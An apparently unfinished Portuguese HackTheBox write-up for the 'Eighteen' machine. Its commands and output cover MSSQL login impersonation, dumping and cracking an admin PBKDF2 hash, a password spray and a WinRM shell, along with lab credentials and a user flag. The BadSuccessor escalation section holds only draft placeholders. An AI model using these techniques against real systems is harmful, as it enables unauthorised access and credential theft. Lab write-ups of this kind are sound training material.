

# Um ticket emitido, um domínio comprometido. 

![[Eighteen.png| Um rapaz com uma camisa preta e o número 18 estampado segura um troféu dourado. Abaixo vemos o nome da máquina: Eighteen.]]

## Introdução

Olá mundo!! Tudo bem com vocês? Imagine que o `Active Directory` é um enorme parque de diversões onde as portas estão sempre abertas, mas você só entra nos brinquedos se tiver o ticket certo- e quem controla a bilheteria é o [[KERBEROS]]. Agora imagina que fosse possível enganar o `Kerberos` e fazê-lo te entregar um ticket de acesso **VIP** à todo parque, inclusive aos brinquedos que só os administradores deveriam ter acesso. É exatamente isso o que veremos nessa nova aventura [hackthebox](https://www.hackthebox.com).

[`Eighteen`](https://www.hackthebox.com/machines/eighteen) é uma máquina `assumed breach` de dificuldade classificada como fácil, onde começamos no `Mssql` com as credenciais do usuário `kevin`. Esse usuário pode impersonar outro usuário, o `appdev`, e obter acesso a um banco de dados que possui a hash do `admin`. Depois de quebrar a hash e conseguir a senha do `admin`, usamos a técnica de **Password-Spray** para descobrir se a senha era reutilizada por algum usuário de domínio. Assim descobrimos o usuário `adam.scott `que possui **ACLs** que vão nos permitir acesso administrador por meio da vulnerabilidade `CVE-2025-53779 Relative Path Traversal in Windows kerberos`, também conhecida como `BadSuccessor`.

Isso será como um passeio no parque, então vamos lá!

---

## Reconhecimento

Como essa é uma máquina `assumed breach`, já começo com credenciais válidas.

```plaintext
As is common in real life Windows penetration tests, you will start the Eighteen box with credentials for the following account kevin / iNa2we6haRj2gaw!
```

### Varredura com Nmap

Para começar, fiz uma varredura de portas com o [[NMAP]].

```bash {13,14,66}
PORT     STATE SERVICE  REASON          VERSION
80/tcp   open  http     syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://eighteen.htb/
|_http-server-header: Microsoft-IIS/10.0
1433/tcp open  ms-sql-s syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.234.212:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100 
|_ssl-date: 2025-11-16T09:26:09+00:00; +7h00m12s from scanner time.
| ms-sql-info: 
|   10.129.234.212:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-16T04:24:44
| Not valid after:  2055-11-16T04:24:44
| MD5:   33cb:4006:7ac8:8c49:57f7:a25e:f9bf:6751
| SHA-1: fd03:b118:6d97:ec36:92bc:3c06:7b98:085d:93e7:318d
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQGr3Lf1pCX4NL9nwwZwvONzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUxMTE2MDQyNDQ0WhgPMjA1NTExMTYwNDI0NDRaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBANyqBagr
| DKyDtBUbjZKVeKse5omzuP/te1dLaq/9acV9BHeNaXidhTA4/gEKzltVGdq4PTj/
| lJaf9OzxeNiqvI+SNS/daH3tV6uC/9pumAGddT1XJkQFVyZ1pv7DLRUSqHgAXPDc
| IRu71r2wT8IxnNrHO6tiu5TBMz3+SvlMnRLaH9LcoJ5079VBulivl4jZJCcMmOOK
| 5x6ZG189wLRVz0E0SkZidRdFXZssw9g7weQh8H7GZx7tMBFcSE9tDBR7vcZZpicR
| KzjvYsyprmG2nH7VLEZQc03Ba53EcHYz3CnOdohg+Kdh10q/SXl56QcobiXZU8UJ
| FwbZVxD1EGLL0JbQNWYZaWSWvE153A3G35bccGb/Z6ebXp1jmIUmQY33JOM2iLWE
| xn48NoGvFK8wgjtSvwJx3m5PuDn7MI4mnXGHi346gUYqYmOdknKInEPi1oZJOY7Y
| AK7Fshu3iDoSsWwi5zZMXw7y/5c4+mWtXvvbM4zI0D3NGRtGXlkbW347zQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQDTj2T6VK//rFNO3EMSyJvwQPaxxqVMeEadp31e
| PyanXz1zw31JdO58QJVufYbhHohmgrdRzrGkiC3be0nLYuwv0A1c7eINBR1bkZBU
| 6pff88SFQT/JsvTTFZqI4AlCmfF6D6NX34RYTxNb3ujnNPCZ/yrWp8AGhguu/lhB
| 6/vCKICDbl5v9Lybuh1v7Yo4t9CdBw78kmcYRLdfGcRWm4zchgbESgdpzDvWcxYv
| scIao9nuW2aUGEEojATWD3UiZtwATkh/f4KTIJa7QnWG6RKYeEGAUEny0HRF9MhL
| /v2e1LEYw8zjJw2K9sgxdlTD4SFuHv3joU4Kah6iYZ7OatuBJQcsOD7CqCSAqt3O
| qDg0hFS6loAVXMpu96J6HuCyBvHoQH3TkOYK2dyoL8HbjfLPWa8klKMJZe/gayYl
| SRtL6JYiHzwOWoo3gWyRCq/IdjDP0YHjXw0pwQVvnnMxvqxHlwcNrLnr+HMSQ95S
| dWn3g7UFfqsH9B+k95LvoszkNuk=
|_-----END CERTIFICATE-----
5985/tcp open  http     syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m11s, deviation: 0s, median: 7h00m10s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 15 23:25:57 2025 -- 1 IP address (1 host up) scanned in 17.55 seconds
```

O `Nmap` retornou informações interessantes. Havia somente três portas abertas- **80** [[HTTP]], **1433** [[MSSQL]] e **5985** [[WINRM]]. Também mostrou referências para os domínios `eighteen.htb` e `DC01.eighteen.htb`, que eu prontamente adicionei ao meu arquivo `/etc/hosts`.

```bash
echo "10.10.11.95 DC01.eighteen.htb eighteen.htb"| sudo tee -a /etc/hosts
```

Percebi também que não haviam portas [[LDAP]], [[SMB]] e [[KERBEROS]] abertas. Isso poderia indicar que esses serviços estariam disponíveis apenas localmente no servidor e, que futuramente eu iria precisar fazer tunelamento para conseguir alcançar essas portas. Notei que o `clock skew` ou a diferença entre meu relógio e o do servidor era de **7 horas**. Isso poderia ser importante futuramente, então guardei essa informação.

### Web

![[eight-0.png | A imagem mostra a home page do planejador financeiro Eighteen]]

Na porta **80** havia uma página web. Era um planejador finaceiro onde podemos nos cadastrar e acessar um **dashboard**. Nesse **dashboard** podemos colocar nos ganhos e gastos e controlar nossas finanças.

![[eight-1.png | A imagem mostra a dashboard do planejador financeiro Eighteen]]

Havia também uma aba de **admin**. Mas não era possível acessar sem ter a sessão de admin. Talvez fosse possível conseguir uma injeção de código no formulário de cadastro ou de login, mas como essa é uma máquina `assumed breach`, deveria haver outro lugar para o usuário `kevin` logar.

### Mssql

Na porta **1433** havia o `Mssql`, onde eu consegui me conectar com as credenciais do `kevin`, usando a ferramenta `impacket-mssqlclient`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Eighteen]
└─$ impacket-mssqlclient eighteen.htb/kevin:'iNa2we6haRj2gaw!'@eighteen.htb -show
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (kevin  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    show_query                 - show query
    mask_query                 - mask query
```

O comando `enum_db` me permitiu verificar os banco de dados disponíveis.

```sql
SQL (kevin  guest@master)> enum_db
[%] select name, is_trustworthy_on from sys.databases
name                is_trustworthy_on
-----------------   -----------------
master                              0

tempdb                              0

model                               0

msdb                                1

financial_planner                   0
```

O comando `enum_impersonate` também trouxe resultado.

```sql
SQL (kevin  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor
----------   --------   ---------------   ----------   -------   -------
b'LOGIN'     b''        IMPERSONATE       GRANT        kevin     appdev
```

O usuário `kevin` poderia dar comandos como usuário `appdev` e acessar o banco de dados `financial_planner`.  

```sql {16}
SQL (kevin  guest@master)> EXECUTE AS LOGIN = 'appdev';
SQL (appdev  appdev@master)> use financial_planner
ENVCHANGE(DATABASE): Old Value: master, New Value: financial_planner
INFO(DC01): Line 1: Changed database context to 'financial_planner'.
SQL (appdev  appdev@financial_planner)> SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' ORDER BY TABLE_SCHEMA, TABLE_NAME;
TABLE_SCHEMA   TABLE_NAME
------------   -----------
dbo            allocations

dbo            analytics

dbo            expenses

dbo            incomes

dbo            users

dbo            visits 
```

Na tabela `users` consegui a hash do usuário `admin`.

```sql
SQL (appdev  appdev@financial_planner)> select * from users;
  id   full_name   username   email                password_hash                                                                                            is_admin   created_at
----   ---------   --------   ------------------   ------------------------------------------------------------------------------------------------------   --------   ----------
1002   admin       admin      admin@eighteen.htb   pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133          1   2025-10-29 05:39:03
```

A senha do `admin`  estava protegida por `PBKDF2` com `HMAC-SHA-256`. Isso quer dizer que só pode ser quebrado com ataques de dicionário. Além disso, parecia que não estava no formato correto para quebra com `Hashcat` e `JohnTheRipper`.

### Pbkdf2 

Como não me lembrava muito bem como deixar no formato correto, pedi ajuda para o [Hacktricks.ia](https://www.hacktricks.ia). Ela construiu um script python para obter a senha usando a wordlist `rockyou.txt`, que é o padrão para quebra de senhas nas máquinas do `Hackthebox`. 

Ao rodar o script, consegui a senha em poucos segundos.

```bash {5}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Eighteen]
└─$ python3 crack_pbkdf2.py -H 'pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133' -w /usr/share/wordlists/rockyou.txt -p 2
[i] algo=sha256, iterations=600000, salt=AMtzteQIG7yAbZIa, target=0673ad90a0b4...
[i] Running parallel with 2 processes
[+] FOUND PASSWORD: iloveyou1 
```

Usando as credenciais  `admin : iloveyou1` no login do site, consegui acesso ao dashboard como `admin`.

![[eight-2.png | A imagem mostra o dashboard do site, mas agora o usuário é o admin]]

Mas acabou sendo um pouco decepcionante, porque não havia muito o que fazer lá. Então voltei minha atenção novamente para o `Mssql`, mas dessa vez usando a ferramenta `Netexec`.

---

## Acesso Inicial

### Password-spray

A ferramenta `Netexec` permite verificar todos os usuários do domínio usando a flag `--rid-brute`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Eighteen]
└─$ nxc mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute
MSSQL       10.129.194.9    1433   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb)
MSSQL       10.129.194.9    1433   DC01             [+] DC01\kevin:iNa2we6haRj2gaw!
MSSQL       10.129.194.9    1433   DC01             498: EIGHTEEN\Enterprise Read-only Domain Controllers
MSSQL       10.129.194.9    1433   DC01             500: EIGHTEEN\Administrator
MSSQL       10.129.194.9    1433   DC01             501: EIGHTEEN\Guest
MSSQL       10.129.194.9    1433   DC01             502: EIGHTEEN\krbtgt
MSSQL       10.129.194.9    1433   DC01             512: EIGHTEEN\Domain Admins
MSSQL       10.129.194.9    1433   DC01             513: EIGHTEEN\Domain Users
MSSQL       10.129.194.9    1433   DC01             514: EIGHTEEN\Domain Guests
MSSQL       10.129.194.9    1433   DC01             515: EIGHTEEN\Domain Computers
MSSQL       10.129.194.9    1433   DC01             516: EIGHTEEN\Domain Controllers
MSSQL       10.129.194.9    1433   DC01             517: EIGHTEEN\Cert Publishers
MSSQL       10.129.194.9    1433   DC01             518: EIGHTEEN\Schema Admins
MSSQL       10.129.194.9    1433   DC01             519: EIGHTEEN\Enterprise Admins
MSSQL       10.129.194.9    1433   DC01             520: EIGHTEEN\Group Policy Creator Owners
MSSQL       10.129.194.9    1433   DC01             521: EIGHTEEN\Read-only Domain Controllers
MSSQL       10.129.194.9    1433   DC01             522: EIGHTEEN\Cloneable Domain Controllers
MSSQL       10.129.194.9    1433   DC01             525: EIGHTEEN\Protected Users
MSSQL       10.129.194.9    1433   DC01             526: EIGHTEEN\Key Admins
MSSQL       10.129.194.9    1433   DC01             527: EIGHTEEN\Enterprise Key Admins
MSSQL       10.129.194.9    1433   DC01             528: EIGHTEEN\Forest Trust Accounts
MSSQL       10.129.194.9    1433   DC01             529: EIGHTEEN\External Trust Accounts
MSSQL       10.129.194.9    1433   DC01             553: EIGHTEEN\RAS and IAS Servers
MSSQL       10.129.194.9    1433   DC01             571: EIGHTEEN\Allowed RODC Password Replication Group
MSSQL       10.129.194.9    1433   DC01             572: EIGHTEEN\Denied RODC Password Replication Group
MSSQL       10.129.194.9    1433   DC01             1000: EIGHTEEN\DC01$
MSSQL       10.129.194.9    1433   DC01             1101: EIGHTEEN\DnsAdmins
MSSQL       10.129.194.9    1433   DC01             1102: EIGHTEEN\DnsUpdateProxy
MSSQL       10.129.194.9    1433   DC01             1601: EIGHTEEN\mssqlsvc
MSSQL       10.129.194.9    1433   DC01             1602: EIGHTEEN\SQLServer2005SQLBrowserUser$DC01
MSSQL       10.129.194.9    1433   DC01             1603: EIGHTEEN\HR
MSSQL       10.129.194.9    1433   DC01             1604: EIGHTEEN\IT
MSSQL       10.129.194.9    1433   DC01             1605: EIGHTEEN\Finance
MSSQL       10.129.194.9    1433   DC01             1606: EIGHTEEN\jamie.dunn
MSSQL       10.129.194.9    1433   DC01             1607: EIGHTEEN\jane.smith
MSSQL       10.129.194.9    1433   DC01             1608: EIGHTEEN\alice.jones
MSSQL       10.129.194.9    1433   DC01             1609: EIGHTEEN\adam.scott
MSSQL       10.129.194.9    1433   DC01             1610: EIGHTEEN\bob.brown
MSSQL       10.129.194.9    1433   DC01             1611: EIGHTEEN\carol.white
MSSQL       10.129.194.9    1433   DC01             1612: EIGHTEEN\dave.green
```

Assim eu pude criar um dicionário de nomes de usuários para testar com a senha obtida no banco de dados. Ao rodar o `Netexec` novamente, descobri que o usuário `adam.scott` usava a senha `iloveyou1` no `Winrm`.

```bash {19}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Eighteen]
└─$ nxc winrm eighteen.htb -u users.txt -p 'iloveyou1' --continue-on-success 

WINRM       10.129.15.27    5985   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\administrator:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\jamie.dunn:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\jane.smith:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\alice.jones:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [+] eighteen.htb\adam.scott:iloveyou1 (Pwn3d!)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\bob.brown:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\carol.white:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.15.27    5985   DC01             [-] eighteen.htb\dave.green:iloveyou1
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
```

### Shell como adam.scott

Usei a ferramenta `evil-winrm` para logar como `adam.scott` no servidor. A flag do usuário pode ser encontrada na pasta **Desktop** desse usuário.

```bash {23}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Eighteen]
└─$ evil-winrm -i eighteen.htb -u 'adam.scott' -p 'iloveyou1'

Evil-WinRM shell v3.7 

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.scott\Documents> ls ../desktop


    Directory: C:\Users\adam.scott\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/17/2025  12:38 PM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.scott\Documents> cat ../desktop/user.txt
795529df354772f4076f5ea354b8da08
```

descrever os passos até chegar no badsuccessor.

---

## Escalação de Privilégios

### BadSuccessor

Depois de conquistar a flag de usuário, acabei gastando algumas horas enumerando sem encontrar nada relevante. No entanto, algumas informações encontradas eram bem importantes. Por exemplo, a porta **88** [[KERBEROS]] estava aberta na rede local, o que me permitiria fazer ataques envolvendo esse serviço. No scan inicial do `Nmap`, essa e outras portas não estavam disponíveis externamente.

```bash {3}
*Evil-WinRM* PS C:\Users\adam.scott\Documents> netstat -ano | findstr "LISTENING"
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       652
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       652
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       1236
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  --- REDACTED ---
```

Outra informação importante é que a máquina era um `Windows Server 2025`.

```bash
*Evil-WinRM* PS C:\Users\adam.scott\Documents> Get-DomainComputer -Properties OperatingSystem, Name, DnsHostName | Sort-Object -Property DnsHostName

dnshostname       name operatingsystem
-----------       ---- ---------------
DC01.eighteen.htb DC01 Windows Server 2025 Datacenter
```

Pesquisando sobre vulnerabilidades recentes nessa versão do Windows, encontrei a `CVE2025-53779`, também conhecida como `Badsuccessor` .

>[!question] O que é a vulnerabilidade BadSuccessor?
>Explique a vuln
### Shell como Administrator

Acesso remoto e flag do root

```bash
echo "Exemplo de comando"
```

---

## Conclusão

![[EighteenFinal.png| Mesm imagem do banner inicial, porém abaixo está escrito: Eighteen has been pwned.]]

Palavras finais sobre o que aprendeu e CTA.



Você pode usar links internos: [[outra-nota]]
E inserir imagens: ![[imagem.png | descrição da imagem]]
Ou blocos de código:

```bash
echo "Exemplo de comando"
```
